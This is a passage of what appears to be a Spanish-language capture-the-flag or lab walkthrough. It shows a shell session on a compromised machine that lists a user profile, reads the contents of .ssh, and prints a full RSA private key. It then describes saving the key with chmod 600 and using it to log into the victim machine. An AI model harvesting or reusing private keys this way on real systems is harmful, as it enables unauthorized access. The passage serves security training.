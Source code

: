 ```
-rwxrwxrwx    1 docker   staff       524288 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TMContainer00000000000000000001.regtrans-ms
-rwxrwxrwx    1 docker   staff       524288 Feb 18  2020 NTUSER.DAT{1651d10a-52b3-11ea-b3e9-000c29d8029c}.TMContainer00000000000000000002.regtrans-ms
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 NetHood
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Pictures
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Recent
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Saved Games
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Searches
dr-xr-xr-x    1 docker   staff            0 Sep 15  2018 SendTo
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Start Menu
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 Templates
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Videos
-rwxrwxrwx    1 docker   staff        24576 Feb 18  2020 ntuser.dat.LOG1
-rwxrwxrwx    1 docker   staff        65536 Feb 18  2020 ntuser.dat.LOG2
-rwxrwxrwx    1 docker   staff           20 Feb 18  2020 ntuser.ini
bash-4.4# cd .ssh
bash-4.4# ls -a
.                authorized_keys  id_rsa.pub
..               id_rsa           known_hosts
bash-4.4# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
4ocjUwG9XcU0iI4pcHT3nXPKmGjoPyiPzpa5WdiJ8QpME398Nne4mnxOboWTp3jG
aJ1GunZCyic0iSwemcBJiNyfZChTipWmBMK88wIDAQABAoIBAH7PEuBOj+UHrM+G
Stxb24LYrUa9nBPnaDvJD4LBishLzelhGNspLFP2EjTJiXTu5b/1E82qK8IPhVlC
JApdhvDsktA9eWdp2NnFXHbiCg0IFWb/MFdJd/ccd/9Qqq4aos+pWH+BSFcOvUlD
vg+BmH7RK7V1NVFk2eyCuS4YajTW+VEwD3uBAl5ErXuKa2VP6HMKPDLPvOGgBf9c
l0l2v75cGjiK02xVu3aFyKf3d7t/GJBgu4zekPKVsiuSA+22ZVcTi653Tum1WUqG
MjuYDIaKmIt9QTn81H5jAQG6CMLlB1LZGoOJuuLhtZ4qW9fU36HpuAzUbG0E/Fq9
jLgX0aECgYEA4if4borc0Y6xFJxuPbwGZeovUExwYzlDvNDF4/Vbqnb/Zm7rTW/m
YPYgEx/p15rBh0pmxkUUybyVjkqHQFKRgu5FSb9IVGKtzNCtfyxDgsOm8DBUvFvo
qgieIC1S7sj78CYw1stPNWS9lclTbbMyqQVjLUvOAULm03ew3KtkURECgYEA17Nr
Ejcb6JWBnoGyL/yEG44h3fHAUOHpVjEeNkXiBIdQEKcroW9WZY9YlKVU/pIPhJ+S
7s++kIu014H+E2SV3qgHknqwNIzTWXbmqnclI/DSqWs19BJlD0/YUcFnpkFG08Xu
iWNSUKGb0R7zhUTZ136+Pn9TEGUXQMmBCEOJLcMCgYBj9bTJ71iwyzgb2xSi9sOB
MmRdQpv+T2ZQQ5rkKiOtEdHLTcV1Qbt7Ke59ZYKvSHi3urv4cLpCfLdB4FEtrhEg
5P39Ha3zlnYpbCbzafYhCydzTHl3k8wfs5VotX/NiUpKGCdIGS7Wc8OUPBtDBoyi
xn3SnIneZtqtp16l+p9pcQKBgAg1Xbe9vSQmvF4J1XwaAfUCfatyjb0GO9j52Yp7
MlS1yYg4tGJaWFFZGSfe+tMNP+XuJKtN4JSjnGgvHDoks8dbYZ5jaN03Frvq2HBY
RGOPwJSN7emx4YKpqTPDRmx/Q3C/sYos628CF2nn4aCKtDeNLTQ3qDORhUcD5BMq
bsf9AoGBAIWYKT0wMlOWForD39SEN3hqP3hkGeAmbIdZXFnUzRioKb4KZ42sVy5B
q3CKhoCDk8N+97jYJhPXdIWqtJPoOfPj6BtjxQEBoacW923tOblPeYkI9biVUyIp
BYxKDs3rNUsW1UUHAvBh0OYs+v/X+Z/2KVLLeClznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----
```

Nos creamos un archivo llamado `id_rsa` y le añadimos el `privilegio 600` con `chmod`, una vez hecho eso nos `conectamos` usando esta `id_rsa` a la máquina víctima
